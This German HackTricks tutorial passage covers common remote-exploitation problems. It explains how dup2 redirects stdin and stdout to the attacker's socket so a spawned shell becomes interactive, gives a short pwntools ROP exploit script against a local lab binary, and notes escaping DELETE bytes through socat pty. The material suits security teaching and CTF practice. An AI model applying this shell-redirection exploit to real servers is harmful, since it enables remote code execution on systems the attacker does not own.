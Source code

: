 # Häufige Exploit-Probleme

{{#include ../../banners/hacktricks-training.md}}

## FDs in der Remote-Exploitation

Wenn ein Exploit an einen Remote-Server gesendet wird, der beispielsweise **`system('/bin/sh')`** aufruft, wird dies natürlich im Serverprozess ausgeführt, und `/bin/sh` erwartet Eingaben von stdin (FD: `0`) und gibt die Ausgaben auf stdout und stderr (FDs `1` und `2`) aus. Der Angreifer kann also nicht mit der Shell interagieren.

Eine Möglichkeit, dies zu beheben, besteht darin anzunehmen, dass der Server beim Start **FD-Nummer `3`** (zum Lauschen) erstellt hat und dass dann Ihre Verbindung in der **FD-Nummer `4`** sein wird. Daher ist es möglich, den Syscall **`dup2`** zu verwenden, um stdin (FD 0) und stdout (FD 1) in FD 4 (die des Angreifers) zu duplizieren, sodass es möglich wird, mit der Shell zu kommunizieren, sobald sie ausgeführt wird.

[**Exploit-Beispiel von hier**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```
## Socat & pty

Beachten Sie, dass socat bereits `stdin` und `stdout` an den Socket überträgt. Der `pty`-Modus **enthält jedoch DELETE-Zeichen**. Wenn Sie also ein `\x7f` ( `DELETE` -) senden, wird **das vorherige Zeichen** Ihres Exploits **gelöscht**.

Um dies zu umgehen, muss das **Escape-Zeichen `\x16` vor jedem gesendeten `\x7f` hinzugefügt werden.**

**Hier können Sie** [**ein Beispiel für dieses Verhalten finden**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{{#include ../../banners/hacktricks-training.md}}
